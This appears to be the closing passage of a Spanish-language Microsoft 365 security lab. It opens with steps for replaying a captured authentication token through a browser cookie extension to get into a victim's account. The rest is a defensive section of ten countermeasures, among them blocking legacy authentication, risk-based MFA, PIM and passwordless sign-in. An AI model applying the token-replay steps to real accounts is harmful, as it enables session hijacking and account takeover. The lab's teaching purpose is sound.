Abre la extensión que acabas de instalar y dale permisos. A continuación borra todas las cookies que pudieran existir en Chrome haciendo clic en `Delete All`



Ahora haz clic en el botón `Import` y pega desde el protapapeles el token capturado. Haz clic el importar de nuevo.

Actualiza el navegador. Se enviará el token de autenticación y entrarás en los recursos de la víctima.




# Ejercicio 8. Contramedidas.

A continuación presentamos una serie de consejos para mejorar la seguridad de la autenticación en M365.


1) ***Bloquear la autenticación heredada***. El paso más importante que hay que dar es avanzar hacia una autenticación moderna. Esto te permitirá añadir más capas y realmente te ayudará a implementar los principios de Zero Trust. Ahora, con la puerta principal cerrada, también debemos ocuparnos de la puerta trasera: la autenticación heredada. Con la autenticación heredada, estamos hablando de protocolos antiguos que se pueden usar para autenticarse en aplicaciones y datos de Microsoft 365, como IMAP, POP3 y SMTP. Estos protocolos no son capaces de aplicar la autenticación moderna, como la autenticación multifactor. Por lo tanto, deben bloquearse.

2) ***Password que no caducan***. Todavía muchas organizaciones  obligan a sus usuarios a restablecer sus contraseñas cada 90 días, o a veces antes. Inicialmente, esto parece algo bueno, pero según la investigación, cada vez que se restablece la contraseña, se vuelven un poco más débiles. Los seres humanos no somos muy buenos para inventar y recordar contraseñas complejas, y por lo tanto usamos "trucos" como agregar números o caracteres al final de la contraseña. Por lo tanto, un usuario que usó `MySecurePassword` durante 90 días y se ve obligado a elegir una nueva, es más probable que elija `MySecurePassword1`, en lugar de crear una contraseña completamente nueva. Desde el punto de vista de seguridad es más efectivo configurar una contraseña perpetua y un factor adicional que obligar a un usuario a cambiar su contraseña cada 15 días.

3) ***Habilitar las políticas de riesgo de usuario e inicio de sesión de Microsoft Entra***. Se trata de una característica de `Azure AD Premium P2`, que aporta una gran cantidad de información sobre los eventos de autenticación. Con el motor de inteligencia de Microsoft, todos los inicios de sesión se compararán con una línea base y, si ocurre algo inusual, se produce una respuesta automatizada. Por lo tanto, cuando un usuario inicia sesión desde una ubicación o un dispositivo desconocidos, se desencadenará un evento de riesgo que puede desencadenar un mensaje de MFA, un bloqueo o incluso un restablecimiento de contraseña, en función de las directivas. Esto a veces se denomina "MFA basada en el riesgo" y solo solicita el segundo factor a los usuarios cuando es necesario, evitando que se deban escribir demasiados mensajes de MFA (fatiga de MFA).

4) ***Habilitar la sincronización del hash del password (AD Connect)***. La sincronización de hash de contraseña es uno de los métodos de inicio de sesión que se usan para lograr una identidad híbrida. Azure AD Connect sincroniza un hash, del hash, de la contraseña del usuario desde una instancia local de Active Directory a una instancia de Azure AD basada en la nube. La sincronización de hash de contraseñas ayuda a reducir el número de contraseñas que los usuarios deben mantener a una sola. La habilitación de la sincronización de hash de contraseña también permite la generación de informes de credenciales filtradas.


Una de esas detecciones de riesgo son las "credenciales filtradas". Este tipo de detección de riesgos indica que se han filtrado las credenciales válidas del usuario. Cuando los ciberdelincuentes comprometen contraseñas válidas de usuarios legítimos, a menudo comparten esas credenciales. Por lo general, este intercambio se realiza publicando en la web oscura, pegando sitios o intercambiando y vendiendo las credenciales en el mercado negro. Cuando el servicio de credenciales filtradas de Microsoft adquiere credenciales de usuario de la web oscura, sitios de pegado u otros orígenes, se comprueban con las credenciales válidas actuales de los usuarios de Azure AD para encontrar coincidencias válidas.


5) ***Defender for Cloud Apps***. Para aprovechar al máximo Azure AD Identity Protection, debes habilitar la integración con Defender for Cloud Apps (anteriormente conocido como Microsoft Cloud App Security). Una gran cantidad de señales de riesgo que solo pueden ser detectadas por Defender for Cloud Apps:

* Reglas sospechosas de manipulación de la bandeja de entrada
* Viaje imposible
* Nuevo país
* Actividad desde una dirección IP anónima
* Reenvío sospechoso de la bandeja de entrada
* Acceso masivo a archivos confidenciales

Defender for Cloud Apps tiene un módulo de respuesta automatizada integrado, donde puede desencadenar flujos de Power Automate para realizar acciones automatizadas, enviar correos electrónicos o incluso mensajes de texto.

6) ***Controlar la frecuencia con la que se solicita el inicio de sesión***. En la MFA de M365 los usuarios simplemente aprueban las solicitudes de inicio de sesión que están protegidas con Azure MFA. Sin embargo, se esconde un peligro detrás de esta característica. Muchas empresas están "sobre-prompting" a sus usuarios, por lo que no siempre está claro de dónde provienen estas indicaciones. Un ejemplo claro de esto es precisamente este laboratorios.

En general, solo se le debe preguntar una vez por usuario, por dispositivo y por restablecimiento de contraseña, pero esto realmente depende de la configuración de la configuración de Azure MFA y el usuario no tendrá una regla clara para determinarlo.

7) ***Defender for M365***. Como hemos comentado en este laboratorio, la mayoría de los ataques usan phishing como vector. Hay muchas cosas que puede hacer en el lado de la prevención aquí, y todo está integrado en Defender para Office 365.

* Simulador de ataque.
* Vínculos seguros.
* Políticas antiphishing.

8) ***Privileged Identity Management***. Zero Trust se basa en los principios de "mínimo privilegio" y "verificación siempre". A menudo, el personal de TI o, a veces, incluso los trabajadores de oficina, pueden acceder a los recursos y roles de Azure AD con acceso permanente. En la mayoría de las situaciones, este acceso nunca se revisa, incluso cuando los usuarios cambian de trabajo o abandonan la empresa. PIM es una función realmente poderosa para mantener el control de su rol y acceso a los recursos.


Con Azure AD Privileged Identity Management (PIM), los administradores pueden acceder a roles y recursos, Just in Time (JIT) y con los privilegios suficientes. El acceso se puede proteger con MFA o con la aprobación de un administrador y se puede revisar de forma periódica. Junto con el acceso condicional, los roles con privilegios elevados se pueden proteger de tal manera que solo se puedan usar desde dispositivos administrados (estaciones de trabajo de acceso con privilegios) o ubicaciones.


9) ***No usar contraseñas***. El mejor consejo contra el phishing está relacionado con la fuente de todos los males: las contraseñas. Tenemos que deshacernos de ellas. En pocas palabras: no puedes robar una contraseña si no hay ninguna.

Microsoft está realmente decidido a desempeñar un papel importante en esa misión y ofrece las siguientes tres opciones de autenticación sin contraseña que se integran con Azure Active Directory (Azure AD):

* Windows Hello para empresas.
* Aplicación Microsoft Authenticator.
* Llaves de seguridad FIDO2.

10) ***Formar al usuario final***. Es la única forma de evitar los ataques de Ingeniería Social, sobre todo aquellos basados en Spear Phishing. Conseguir que un empleado detecte un intento de ataque es la mejor contramediad que se puede implementar en nuestras empresas.


***FIN DEL LABORATORIO***